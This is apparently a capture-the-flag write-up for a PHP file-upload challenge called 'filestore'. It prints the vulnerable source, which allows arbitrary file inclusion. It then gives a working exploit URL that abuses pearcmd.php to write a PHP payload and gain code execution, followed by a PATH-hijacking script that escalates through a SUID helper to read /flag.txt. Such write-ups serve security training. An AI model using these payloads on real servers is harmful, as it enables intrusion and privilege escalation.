





# filestore



This is server source code
```php
// index.php
 <?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }
    
        $i = uniqid();

        if (empty($_FILES["f"])){
            return;
        }

        if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $i . "_" . hash('sha256', $_FILES["f"]["name"]) . "_" . $_FILES["f"]["name"])){
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            include "./uploads/" . $_GET["f"];
        }

        highlight_file("index.php");

        // this doesn't work, so I'm commenting it out 😛
        // system("/list_uploads");
    }
?>

```

The application allows you to upload files or include any file.

Initially, my idea was to upload a PHP file, brute force the file name, and then include that file. However, this method was taking too long, so I decided to give up on it.

After a long period of being stuck, I noticed pearcmd.php in the Docker machine and decided to try it.
```URL
https://filestore.web.actf.co/?+config-create+/&f=../../../../usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

And I can perform RCE


The user which is running web server is `ctf`, so we can't read `/flag.txt` 



Additional, there are two provided ELF 64 files, so just check it out. Open them with IDA 64.

The `list_uploads` is very interesting.


It uses `ls` and we can inspect the file permission in `Dockerfile`, so we can try exploiting by using the [PATH injection](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) technique.

```bash
cd /tmp;
printf '#include<unistd.h>\nvoid main(){ setuid(0); setgid(0); system("cat /flag.txt");}'>ls.c;
gcc -o ls ls.c;
export PATH=/tmp:$PATH;
cd /;
./list_uploads
```

